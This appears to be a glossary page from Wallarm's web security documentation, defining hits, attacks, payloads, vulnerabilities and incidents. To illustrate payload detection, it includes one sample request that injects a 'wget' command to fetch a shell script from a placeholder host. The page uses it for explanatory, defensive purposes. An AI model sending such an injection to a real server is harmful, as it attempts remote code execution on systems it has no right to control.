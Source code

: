 # Glossary

The glossary covers the core Wallarm entities to provide you with a better understanding of the platform.

## Hit

A hit is a serialized malicious request (original malicious request and metadata added by the filtering node), e.g.:

![Hit example](images/user-guides/events/analyze-attack-raw.png)

[Details on hit parameters](user-guides/events/check-attack.md/#attack-analysis_1)

## Attack

An attack is a single hit or multiple hits [grouped](user-guides/events/grouping-sampling.md#grouping-of-hits).

An example of an attack including a single hit:

![Attack with one hit](images/glossary/attack-with-one-hit-example.png)

An example of an attack including many hits:

![Attack with several hits](images/glossary/attack-with-several-hits-example.png)

See [details](user-guides/events/check-attack.md) on how attacks in Wallarm are analyzed.

## Malicious Payload

A part of an original request containing the following elements:

* Attack signs detected in a request. If several attack signs characterizing the same attack type are detected in a request, only the first sign will be recorded to a payload.
* Context of the attack sign. Context is a set of symbols preceding and closing detected attack signs. Since a payload length is limited, the context can be omitted if an attack sign is of full payload length.

For example:

* Request:

    ```bash
    curl localhost/?23036d6ba7=%3Bwget+http%3A%2F%2Fsome_host%2Fsh311.sh
    ```
* Malicious payload:

    ```bash
    ;wget+http://s
    ```

    In this payload, `;wget+` is the [RCE](attacks-vulns-list.md#remote-code-execution-rce) attack sign and another part of the payload is the attack sign context.

Since attack signs are not used to detect [behavioral attacks](about-wallarm/protecting-against-attacks.md#behavioral-attacks), requests sent as a part of behavioral attacks have empty payloads.

## Vulnerability
A vulnerability is an error made due to negligence or inadequate information when building or implementing a web application that can lead to an information security risk.

The information security risks are:

* Unauthorized data access; for example, access to read and modify user data.
* Denial of service.
* Data corruption and other.

The Internet traffic can be used to detect the vulnerabilities, which is what Wallarm does, among other functions.

## Security Incident

A security incident is an occurrence of vulnerability exploitation. An incident is an [attack](#attack) targeted at a confirmed vulnerability.

An incident, just like an attack, is an entity external to your system and is a characteristic of the outside Internet, not the system itself. Despite the fact that the attacks targeted at existing vulnerabilities are a minority, they are of the utmost importance in terms of information security. Wallarm automatically detects the attacks targeted at existing vulnerabilities and displays them as a separate object - incident.

## Circular Buffer
A circular buffer is a data structure that uses a single, fixed‑size buffer as if it were connected end‑to‑end.
[See Wikipedia](https://en.wikipedia.org/wiki/Circular_buffer).

## Custom ruleset (the former term is LOM)

A custom ruleset is a set of compiled security rules downloaded by Wallarm nodes from the Wallarm Cloud.

Custom rules enable you to set up individual rules for the traffic processing, e.g.:

* Mask sensitive data before uploading to the Wallarm Cloud
* Create regexp-based attack indicators
* Apply a virtual patch blocking requests that exploit an active vulnerability
* Disable attack detection in certain requests, etc.

A custom ruleset is not empty by default, it contains the rules created for all clients registered in the Cloud, e.g. the filtration mode rule with the value from the [**Settings → General** tab](admin-en/configure-wallarm-mode.md#general-filtration-rule-in-wallarm-console).

[More details on custom rulesets](user-guides/rules/rules.md)

## Invalid Request
A request that was checked by filter node and does not match LOM rules.

## Reverse Proxy
A reverse proxy is a type of proxy server that retrieves resources on behalf of a client from a server and returns the resources to the client as if they originated from the Web server itself.
[See Wikipedia](https://en.wikipedia.org/wiki/Reverse_proxy).

## Certificate Authority
A certificate authority is an entity that issues digital certificates.
[See Wikipedia](https://en.wikipedia.org/wiki/Certificate_authority).
